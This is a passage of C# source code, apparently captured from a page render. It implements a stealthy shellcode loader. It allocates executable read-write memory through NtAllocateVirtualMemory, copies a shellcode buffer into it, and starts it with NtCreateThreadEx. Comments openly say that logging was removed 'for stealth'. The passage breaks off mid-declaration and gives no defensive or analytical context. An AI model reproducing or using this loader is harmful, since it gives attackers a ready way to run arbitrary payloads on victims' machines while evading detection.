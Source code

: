 ```
                UIntPtr size = (UIntPtr)shellcode.Count;
                uint ntstatus = NtAllocateVirtualMemory(
                    (IntPtr)(-1), 
                    ref pMemory, 
                    IntPtr.Zero, 
                    ref size, 
                    0x3000, 
                    0x40
                );

                if (ntstatus != 0 || pMemory == IntPtr.Zero)
                    return;  // Memory allocation failed

                Marshal.Copy(shellcode.ToArray(), 0, pMemory, shellcode.Count);

                // Stealthy Shellcode Execution
                IntPtr hThread = IntPtr.Zero;
                ntstatus = NtCreateThreadEx(
                    out hThread, 
                    0x1FFFFF, 
                    IntPtr.Zero, 
                    (IntPtr)(-1), 
                    pMemory, 
                    IntPtr.Zero, 
                    false, 
                    0, 
                    0x1000, 
                    0x100000, 
                    IntPtr.Zero
                );

                if (ntstatus != 0 || hThread == IntPtr.Zero)
                    return;  // Thread creation failed
            }
            catch (Exception ex)
            {
                // Logging removed for stealth
            }
        }

        // Import stealthy Windows API functions
        [DllImport("ntdll.dll", SetLastError = true)]
        private static extern uint NtAllocateVirtualMemory(
            IntPtr ProcessHandle,
            ref IntPtr BaseAddress,
            IntPtr ZeroBits,
            ref UIntPtr RegionSize,
            uint AllocationType,
            uint Protect
        );

        [DllImport("ntdll.dll", SetLastError = true)]
        private static extern uint NtCreateThreadEx(
            out IntPtr threadHandle,
            uint desiredAccess,
            IntPtr objectAttributes,
            IntPtr processHandle,
            IntPtr startAddress,
            IntPtr parameter,
            bool createSuspended,
            uint stackZeroBits,
            uint sizeOfStackCommit,
            uint sizeOfStackReserve,
```